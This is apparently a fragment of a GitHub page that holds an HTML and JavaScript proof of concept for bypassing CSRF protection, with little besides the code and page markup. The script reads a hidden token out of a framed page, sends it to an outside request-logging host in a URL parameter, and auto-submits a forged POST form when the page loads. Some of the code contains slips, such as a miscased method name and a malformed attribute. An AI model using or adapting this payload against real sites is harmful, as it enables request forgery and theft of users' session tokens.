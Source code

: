 &lt;iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"&gt;&lt;/iframe&gt;

&lt;iframe id="frame2" name="frame2" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"&gt;&lt;/iframe&gt;
&lt;body onload="document.forms[0].submit()"&gt;
&lt;form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data"&gt;
  &lt;input type="text" name="username" value="z"&gt;
  &lt;input type="checkbox" name="status" checked=""&gt;        
  &lt;input id="token" type="hidden" name="token" value="0000" /&gt;
  &lt;button type="submit"&gt;Submit&lt;/button&gt;
&lt;/form&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script>
var token;
function readframe1(){
  token = frame1.document.getElementById(&quot;profile&quot;).token.value;
  document.getElementById(&quot;bypass&quot;).token.value = token
  loadframe2();
}
function loadframe2(){
  var test = document.getElementbyId(&quot;frame2&quot;);
  test.src = &quot;http://requestb.in/1g6asbg1?token=&quot;+token;
}
</script>

<iframe id=&quot;frame1&quot; name=&quot;frame1&quot; src=&quot;http://google.com?param=VALUE&quot; onload=&quot;readframe1()&quot; 
sandbox=&quot;allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation&quot;
height=&quot;600&quot; width=&quot;800&quot;></iframe>

<iframe id=&quot;frame2&quot; name=&quot;frame2&quot; 
sandbox=&quot;allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation&quot;
height=&quot;600&quot; width=&quot;800&quot;></iframe>
<body onload=&quot;document.forms[0].submit()&quot;>
<form id=&quot;bypass&quot; name&quot;bypass&quot; method=&quot;POST&quot; target=&quot;frame2&quot; action=&quot;http://google.com?param=VALUE&quot; enctype=&quot;multipart/form-data&quot;>
  <input type=&quot;text&quot; name=&quot;username&quot; value=&quot;z&quot;>
  <input type=&quot;checkbox&quot; name=&quot;status&quot; checked=&quot;&quot;>        
  <input id=&quot;token&quot; type=&quot;hidden&quot; name=&quot;token&quot; value=&quot;0000&quot; />
  <button type=&quot;submit&quot;>Submit</button>
</form>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>